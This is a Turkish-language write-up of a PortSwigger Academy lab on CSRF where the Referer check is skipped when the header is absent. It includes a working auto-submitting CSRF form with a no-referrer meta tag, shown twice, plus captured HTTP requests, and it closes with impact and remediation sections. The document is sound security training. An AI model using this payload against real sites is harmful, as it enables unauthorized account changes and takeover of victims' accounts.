





# CSRF where Referer validation depends on header being present

## 1. Lab Bilgisi

**Difficulty:** Practitioner

## 2. Vulnerability Özeti

Bu labda email değiştirme fonksiyonunda CSRF token gibi unpredictable bir koruma bulunmuyor. Uygulama bunun yerine `Referer` header'ını kontrol ederek isteğin hedef site üzerinden gelip gelmediğini anlamaya çalışıyor.

Kontrol hatalı uygulanmış durumda: `Referer` header'ı varsa ve hedef origin'i içermiyorsa istek reddediliyor, fakat `Referer` header'ı tamamen yoksa istek kabul ediliyor. Bu nedenle exploit sayfasında tarayıcının `Referer` göndermemesini sağlayan `Referrer-Policy` davranışı kullanılarak CSRF koruması bypass edilebiliyor.

## 3. Kullanılan Payload

```html
<meta name="referrer" content="no-referrer">

<form action="https://0ac800d3048793c3809badf2001c007f.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="victimnewemail77@gmail.com">
</form>

<script>
    document.forms[0].submit();
</script>
```

## 4. Exploitation Steps

1. Uygulamaya `wiener:peter` bilgileriyle giriş yaptım ve `/my-account/change-email` isteğini Burp Suite ile yakaladım. İstek içinde CSRF token bulunmadığını, email değişikliğinin yalnızca `email` parametresiyle yapıldığını gördüm. Normal akışta `Referer` header'ı aynı origin'i gösterdiği için uygulama isteği kabul edip `302 Found` cevabı döndürüyordu.

```http
POST /my-account/change-email HTTP/2
Host: 0ac800d3048793c3809badf2001c007f.web-security-academy.net
Cookie: session=...
Origin: https://0ac800d3048793c3809badf2001c007f.web-security-academy.net
Referer: https://0ac800d3048793c3809badf2001c007f.web-security-academy.net/my-account?id=wiener

email=asdas%40gmail.com
```



2. `Referer` header'ını farklı bir domain olacak şekilde değiştirdim. Uygulama bu isteği `400 Bad Request` ile reddetti ve response içinde `"Invalid referer header"` mesajını döndürdü. Bu davranış, uygulamanın CSRF koruması olarak `Referer` doğrulamasına güvendiğini gösterdi.

```http
Referer: https://evil.net
```



3. Daha sonra `Referer` header'ını tamamen kaldırarak isteği tekrar gönderdim. Bu kez uygulama isteği kabul etti ve tekrar `302 Found` cevabı verdi. Böylece kontrolün yalnızca header mevcut olduğunda çalıştığını, header yoksa isteğin engellenmediğini doğruladım.

```http
POST /my-account/change-email HTTP/2
Host: 0ac800d3048793c3809badf2001c007f.web-security-academy.net
Cookie: session=...
Origin: https://0ac800d3048793c3809badf2001c007f.web-security-academy.net

email=asdas%40gmail.com
```



4. Exploit server üzerinde otomatik gönderilen bir POST formu hazırladım. Sayfanın başına `<meta name="referrer" content="no-referrer">` ekleyerek tarayıcının hedef uygulamaya yapılan form isteğinde `Referer` header'ı göndermemesini sağladım.

```html
<meta name="referrer" content="no-referrer">

<form action="https://0ac800d3048793c3809badf2001c007f.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="victimnewemail77@gmail.com">
</form>

<script>
    document.forms[0].submit();
</script>
```



5. Exploit'i kurbana gönderdim. Kurban exploit sayfasını açtığında form otomatik olarak hedef uygulamanın email değiştirme endpoint'ine POST edildi. `no-referrer` policy nedeniyle `Referer` header'ı gönderilmediği için uygulamadaki hatalı kontrol bypass edildi ve kurbanın email adresi değiştirildi.



## 5. Impact

`Referer` header'ına bağlı CSRF kontrolleri güvenilir değildir. Tarayıcılar gizlilik politikaları, referrer policy ayarları veya bazı yönlendirme senaryoları nedeniyle bu header'ı göndermeyebilir. Uygulama yalnızca header mevcut olduğunda doğrulama yapıyor ve header yokken state-changing işlemi kabul ediyorsa, saldırgan kurbanın tarayıcısından yetkisiz işlem yaptırabilir. Bu labda email adresi değiştirildi; benzer zafiyetler hesap ele geçirme veya kritik hesap ayarlarının yetkisiz değiştirilmesiyle sonuçlanabilir.

## 6. Remediation

State-changing işlemler için session'a bağlı, tahmin edilemez CSRF token kullanılmalı ve sunucu tarafında doğrulanmalıdır. `Referer` veya `Origin` header'ları ek savunma olarak kullanılabilir, ancak header'ın eksik olduğu durumlar güvenli varsayılmamalıdır. Email değiştirme gibi kritik işlemlerde token doğrulaması zorunlu olmalı, eksik veya geçersiz kaynak bilgisi içeren istekler reddedilmelidir.
